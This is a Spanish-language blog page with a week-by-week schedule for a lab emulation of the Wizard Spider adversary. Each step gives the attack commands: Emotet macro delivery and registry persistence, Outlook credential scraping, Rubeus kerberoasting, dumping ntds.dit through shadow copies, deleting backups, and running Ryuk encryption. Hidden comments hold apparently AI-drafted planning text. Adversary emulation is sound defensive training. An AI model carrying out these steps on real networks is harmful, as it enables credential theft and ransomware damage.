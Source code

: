 ```yaml
---
title: Cronograma
date: 2025-05-01 00:00:00 -05:00
categories: [apt]
tags: [cronograma]
---
```


<!-- 
¡Entendido! Con una estimación de tiempo total de **aproximadamente 4 a 4.5 semanas (160-180 horas)** para el escenario 1 de Wizard Spider, considerando la complejidad, los imprevistos y la necesidad de documentación, vamos a redistribuir los 10 pasos a lo largo de 4 semanas.

Esto nos permitirá tener una planificación más holgada y realista, integrando el *buffer* de tiempo dentro de la duración de cada tarea. -->

---

## Cronograma Ajustado de Emulación de Adversario: Wizard Spider - Escenario 1 <!-- (4 Semanas) -->

Este cronograma está diseñado para el **Escenario 1 de Wizard Spider**, alineándose con los 10 pasos del plan oficial y distribuyendo las tareas. <!-- de manera más realista para un total de aproximadamente 160-180 horas de trabajo. -->

---
- [x] 📅 **Del 23 al 28 de junio de 2025**
<!-- ### Semana 1: Preparación, Acceso Inicial y Persistencia de Emotet (Total Estimado: 40 horas) -->

### Preparación, Acceso Inicial y Persistencia de Emotet

Esta semana se enfoca en establecer la infraestructura, lograr el acceso inicial y asegurar la persistencia del primer *malware* (Emotet).

<!-- * **Días 1-2: Configuración del Entorno de Emulación (16 horas)** -->
* **Configuración del Entorno de Emulación**
    * **Actividad 1.1: Diseño y Despliegue de la Infraestructura C2:** 

        - [x] Planificación detallada y configuración de los servidores C2 para Emotet (192.168.0.4:80 HTTP), incluyendo *listeners*, perfiles Malleable C2 y VPN/máquinas de salto. <!--(10 horas) -->

    * **Actividad 1.2: Preparación del Entorno Objetivo (Dorothy):** 
    
        - [x] Configuración de la máquina "Dorothy" (10.0.0.7), incluyendo la cuenta de usuario `judy@oz.local`, sistemas operativos, defensas simuladas y el pre-posicionamiento del documento `ChristmasCard.docm`. <!--(6 horas)-->

<!-- * **Días 3-4: Paso 1 - Initial Compromise (16 horas)** -->
* **Paso 1 - Initial Compromise**
    * **Actividad 1.3: Subir Documento Emotet-dropper:** 
    
        - [x] Uso de `smbclient` para colocar el `ChristmasCard.docm` en el escritorio de Dorothy. <!--(2 horas)-->

    * **Actividad 1.4: Iniciar Control Server:**
    
        - [x] `sudo ./controlServer` para activar el servidor C2. <!--(1 hora)-->

    * **Actividad 1.5: RDP a Dorothy:** 
    
        - [x] Conexión remota a 10.0.0.7 como `judy@oz.local`. <!--(1 hora)-->

    * **Actividad 1.6: Abrir Documento y Habilitar Macros:** 

        Abrir `ChristmasCard.docm` y habilitar macros, monitoreando la ejecución de la DLL de Emotet. <!--(8 horas - **incluye tiempo de solución de problemas/depuración si la ejecución inicial falla, o si hay que evadir alguna detección simulada.**)-->

        <!-- * **Actividad extra:**
            - revisar código de la macros
            - conceptos claros de enrutamiento, buscar el enrutamiento adecuado
                - verificar la red, que todos tengan continuidad (mejorar conocimientos de networking)
                - dos opciones:
                    - 1. ¿sostener un router virtual?, se necesita un 1GB y 1CPU, es adeacuado?
                    - 2. Buscar el enrutamiento adecuado, networking en virtual box, documentación
            - herramientas:
                - TCP dump
                - netcad
                - procmon
            - documentar -->


    * **Actividad 1.7: Confirmar Callback C2 y Documentación Inicial:** 
    
        Verificar la nueva sesión de Emotet en el control server y tomar capturas de pantalla/notas. <!--(4 horas)-->
    

<!-- * **Día 5: Paso 2 - Emotet Persistence (8 horas)** -->
* **Paso 2 - Emotet Persistence**
    * **Actividad 2.1: Establecer Persistencia del Registro:** Ejecutar `evalsC2client.py --set-task DOROTHY_DABB41A5 1` para añadir la clave de registro de persistencia (`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`). <!-- (8 horas - **incluye verificación exhaustiva de la persistencia y su resistencia a posibles reinicios simulados o acciones de defensa.**)-->

---
- [ ] 📅 **Del 30 de junio al 05 de julio de 2025**
<!-- ### Semana 2: Recolección de Credenciales y Movimiento Lateral Inicial (Total Estimado: 40 horas) -->

### Recolección de Credenciales y Movimiento Lateral Inicial

Fase de descubrimiento post-explotación, la recopilación de credenciales y el primer salto lateral.

<!-- * **Días 6-7: Paso 3 - Emotet Host Discovery and Credential Collection (16 horas)** -->
* **Paso 3 - Emotet Host Discovery and Credential Collection**
    * **Actividad 3.1: Enumerar Procesos Locales:** Ejecutar `evalsC2client.py --set-task DOROTHY_DABB41A5 2`. <!--(2 horas)-->

    * **Actividad 3.2: Descargar Outlook Scraper DLL:** Ejecutar `evalsC2client.py --set-task DOROTHY_DABB41A5 3` para obtener `Outlook.dll` del C2. <!--(4 horas - **considerando posibles problemas de descarga o detección.**)-->

    * **Actividad 3.3: Cargar Outlook Scraper DLL:** Ejecutar `evalsC2client.py --set-task DOROTHY_DABB41A5 4` para cargar la DLL en el espacio de memoria de Emotet. <!--(4 horas)-->

    * **Actividad 3.4: Scrapear Contenido de Email (Outlook):** Ejecutar `evalsC2client.py --set-task DOROTHY_DABB41A5 5` y `evalsC2client.py --set-task DOROTHY_DABB41A5 8` para extraer correos y contactos, buscando credenciales (especialmente `bill@oz.local`). <!--(6 horas - **incluye análisis de resultados y validación de credenciales.**)-->

<!-- * **Días 8-9: Paso 4 - Move Laterally Deploy TrickBot (16 horas)** -->
* **Paso 4 - Move Laterally Deploy TrickBot**
    * **Actividad 4.1: Desconectarse de RDP (Dorothy):** Cerrar la sesión RDP actual. <!--(1 hora)-->

    * **Actividad 4.2: RDP a Toto y Crear Share de Red:** Conectar a 10.0.0.8 como `bill@oz.local`, configurando un *drive* RDP montado con la carpeta TrickBot. <!--(4 horas - **incluye validación de la conexión y share.**)-->

    * **Actividad 4.3: Copiar TrickBot EXE a AppData:** Usar `copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe` en la nueva máquina. <!--(3 horas)-->

    * **Actividad 4.4: Ejecutar TrickBot EXE:** `cd %AppData%` y luego `uxtheme.exe` para iniciar TrickBot. <!--(5 horas - **incluye monitoreo de la nueva sesión de TrickBot en el C2 y resolución de problemas de ejecución.**)-->

    * **Actividad 4.5: Captura de Pantalla y Documentación:** Documentar la nueva sesión de TrickBot. <!--(3 horas)-->

<!-- * **Día 10: Paso 5 - TrickBot Discovery (8 horas)** -->
* **Paso 5 - TrickBot Discovery**
    * **Actividad 5.1: Ejecutar Comandos de Descubrimiento (TrickBot):** Desde el C2, ejecutar la serie de comandos `evalsC2client.py --set-task TrickBot-Implant` (`systeminfo`, `sc query`, `net user`, `ipconfig`, `netstat`, `net config workstation`, `nltest`, `whoami /groups`). <!--(8 horas - **incluye tiempo para analizar los resultados de la enumeración y planificar los siguientes pasos.**)-->

---
- [ ] 📅 **Del 07 al 12 de julio de 2025**
<!-- ### Semana 3: Escalada de Privilegios en DC y Exfiltración de AD (Total Estimado: 40 horas) -->

### Escalada de Privilegios en DC y Exfiltración de AD

Esta semana se concentra en la escalada de privilegios a nivel de dominio y la exfiltración de la base de datos del Directorio Activo.

<!-- * **Días 11-12: Paso 6 - Kerberoast the DC (16 horas)** -->
* **Paso 6 - Kerberoast the DC**
    * **Actividad 6.1: Obtener Rubeus.exe en TrickBot Implant:** `evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"`. <!-- (4 horas - **incluye solución de problemas de transferencia de archivos.**)-->

    * **Actividad 6.2: Realizar Kerberoasting:** `evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"` para obtener los hashes de credenciales del DC (especialmente `vfleming`). <!-- (12 horas - **incluye tiempo para asegurar la ejecución del comando, la recolección de los hashes y la simulación del *cracking* offline.**)-->

<!-- * **Días 13-14: Paso 7 - Lateral Movement to DC (16 horas)** -->
* **Paso 7 - Lateral Movement to DC**
    * **Actividad 7.1: Desconectarse de RDP (Toto):** Cerrar la sesión RDP actual. <!-- (1 hora)-->

    * **Actividad 7.2: RDP a Wizard (DC) y Descargar TrickBot Variant:** Conectar a 10.0.0.4 como `vfleming@oz.local` con un *drive* RDP montado, y usar `Invoke-WebRequest` para descargar el binario de TrickBot variante. <!-- (6 horas - **incluye validación del RDP con las nuevas credenciales y problemas de descarga.**)-->

    * **Actividad 7.3: Establecer Persistencia de Registro (Userinit):** Modificar la clave `HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` para mantener la persistencia en el DC. <!-- (4 horas)-->

    * **Actividad 7.4: Enumerar Dominio con AdFind:** Ejecutar `adfind -f "(objectcategory=group)"` en el DC para una enumeración profunda. <!-- (5 horas - **incluye análisis de resultados y confirmación de privilegios de dominio.**)-->

<!-- * **Día 15: Paso 8 - Dump Active Directory Database (ntds.dit) (8 horas)** -->
* **Paso 8 - Dump Active Directory Database (ntds.dit)**
    * **Actividad 8.1: Crear Shadow Copy del Volumen (VSS):** Ejecutar `vssadmin.exe create shadow /for=C:` en el DC para obtener una copia de seguridad consistente de los archivos de AD. <!-- (3 horas)-->

    * **Actividad 8.2: Copiar NTDS.dit y Hives del Registro:** Usar `copy` para extraer `ntds.dit`, `SYSTEM` y otros hives del registro a través del *share* RDP montado. <!-- (5 horas - **incluye verificación de la integridad de los archivos copiados y simulación de su extracción segura.**)-->

---
- [ ] 📅 **Del 14 al 19 de julio de 2025**
<!-- ### Semana 4: Impacto del Ransomware y Post-Explotación (Total Estimado: 40 horas) -->

### Impacto del Ransomware y Post-Explotación

La última semana se dedica a las fases finales de la emulación, incluyendo la preparación del *ransomware*, el impacto y la limpieza/documentación final.

<!-- * **Días 16-17: Paso 9 - Ryuk Inhibit System Recovery (16 horas)** -->
* **Paso 9 - Ryuk Inhibit System Recovery**
    * **Actividad 9.1: Montar Share de Toto:** `net use Z: \\10.0.0.8\C$` desde el DC para el movimiento lateral del *ransomware*. <!--(3 horas)-->

    * **Actividad 9.2: Copiar y Ejecutar kill.bat:** `copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat` y ejecutar `C:\Users\Public\kill.bat` para detener servicios y deshabilitar copias de seguridad/restauración del sistema. <!--(7 horas - **incluye monitoreo de los servicios afectados y verificación.**)-->

    * **Actividad 9.3: Copiar y Ejecutar window.bat:** `copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat` y ejecutar `C:\Users\Public\window.bat` para eliminar *shadow copies* existentes.<!--(6 horas - **incluye verificación de la eliminación.**)-->

<!-- * **Días 18-19: Paso 10 - Ryuk Encryption for Impact (16 horas)** -->
* **Paso 10 - Ryuk Encryption for Impact**
    * **Actividad 10.1: Copiar Ryuk Executable:** `copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe` al DC. <!--(2 horas)-->

    * **Actividad 10.2: Preparación del Proceso Objetivo (notepad.exe):** Asegurarse de que `notepad.exe` esté disponible para la inyección. <!--(1 hora)-->

    * **Actividad 10.3: Ejecutar Ryuk para Cifrado:** `C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe` para simular el cifrado de archivos en el host local (DC) y en el *share* montado (Toto). <!--(10 horas - **esta es una fase crítica que puede requerir depuración y verificación de los resultados del cifrado.**)-->

    * **Actividad 10.4: Confirmar Cifrado:** `type` archivos cifrados local y remotamente para verificar el impacto.<!--(3 horas)-->

<!-- * **Día 20: Post-Emulación: Limpieza y Documentación Final (8 horas)** -->
* **Post-Emulación: Limpieza y Documentación Final**
    * **Actividad 10.5: Eliminación de Rastros:** Borrado de *logs*, archivos temporales, herramientas y otras evidencias de la actividad en todos los sistemas comprometidos y la infraestructura de ataque. <!--(4 horas)-->

    * **Actividad 10.6: Eliminación de Persistencia:** Remover todos los *backdoors* y mecanismos de persistencia. <!--(2 horas)-->

    * **Actividad 10.7: Preparación y Revisión del Informe Final:** Consolidación de toda la documentación recopilada durante las semanas y elaboración del informe final de emulación. <!--(2 horas - **Se asume que la mayor parte de la documentación se realizó continuamente durante las tareas, este es un tiempo para consolidación y revisión final.**)-->

---

<!-- ### Consideraciones Clave para el Cronograma de 4 Semanas:

* **Buffer Integrado:** Las horas asignadas a cada paso ya incluyen un margen para la resolución de problemas, la depuración y la verificación de resultados. Esto hace que el cronograma sea más robusto.

* **Documentación Continua:** Se enfatiza la importancia de la documentación constante a lo largo de todo el ejercicio.

* **Flexibilidad:** Aunque este cronograma es más detallado, la emulación es un proceso dinámico. Permite flexibilidad para ajustar los tiempos o reevaluar enfoques si las defensas reaccionan de manera inesperada o si se descubren nuevas vías.

* **Naturaleza de la Simulación:** El tiempo también contempla la posible necesidad de restablecer el entorno o verificar la efectividad de las simulaciones de defensa.

Este cronograma proporciona una hoja de ruta más completa y realista para la emulación del escenario de Wizard Spider, permitiendo un enfoque más metodológico y robusto.

CUMPLIR CON LO DETALLADO !!! 
--- -->